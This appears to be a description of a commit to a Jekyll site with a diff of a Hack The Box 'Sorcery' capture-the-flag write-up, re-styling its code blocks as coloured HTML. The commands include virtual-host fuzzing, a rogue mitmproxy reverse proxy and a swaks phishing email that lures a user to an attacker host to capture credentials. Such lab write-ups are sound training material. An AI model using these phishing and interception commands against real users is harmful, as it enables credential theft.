

Before and after one commit to Respilot/writeup, a Jekyll site: the page built from _writeups/sorcery.md, in a window 1280 px wide. Shown: the top 845 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
style: deepen quoted string color

````diff
--- a/_writeups/sorcery.md
+++ b/_writeups/sorcery.md
@@ -6,42 +6,30 @@ platform: Hack The Box
 
 Add the IPs to `/etc/hosts`:
 
-```
-10.10.11.73 sorcery.htb git.sorcery.htb
-10.10.14.40 pwn.sorcery.htb
-```
+<pre><code><span style="color:#ffffff">10.10.11.73 sorcery.htb git.sorcery.htb
+10.10.14.40 pwn.sorcery.htb</span></code></pre>
 
 Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:
 
-```
-git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git
-```
+<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>
 
 Enumerate virtual hosts with `ffuf`:
 
-```
-ffuf -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H "Host: FUZZ.sorcery.htb" -mc 200
-```
+<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffd700">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>
 
 This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.
 
 Capture traffic with a rogue host and `mitmproxy`:
 
-```
-sudo mitmproxy --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443
-```
+<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>
 
 Send a phishing email to capture credentials:
 
-```
-proxychains4 -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"
-```
+<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
 
 Extract the captured credentials from the proxied session:
 
-```
-magick xwd:Xvfb_screen0 credentials.png
-open credentials.png
-```
+<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
+</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>
 
 *Screenshots omitted.*
````
